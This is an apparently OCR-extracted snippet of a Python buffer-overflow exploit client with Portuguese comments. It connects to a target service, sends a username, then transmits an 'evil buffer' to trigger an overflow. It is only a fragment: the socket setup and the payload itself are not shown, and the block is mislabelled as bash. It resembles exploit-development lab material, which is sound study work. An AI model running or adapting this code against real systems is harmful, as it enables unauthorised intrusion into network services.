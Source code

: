 ```bash

try:
    # Conectando ao alvo
    s.connect((ip, port))
    print("Connected to target.")

    # Recebe a mensagem de boas-vindas
    response = s.recv(1024).decode("latin-1")
    print(response)

    # Envia o nome de usuário
    username = " "  # Nome de usuário
    s.send(bytes(username + "\r\n", "latin-1"))
    
    # Recebe resposta do servidor após o envio do usuário
    response = s.recv(1024).decode("latin-1")
    print(response)

    # Envia o buffer de injeção (overflow)
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")

except Exception as e:
    print(f"Could not connect: {e}")

finally:
    s.close()
```
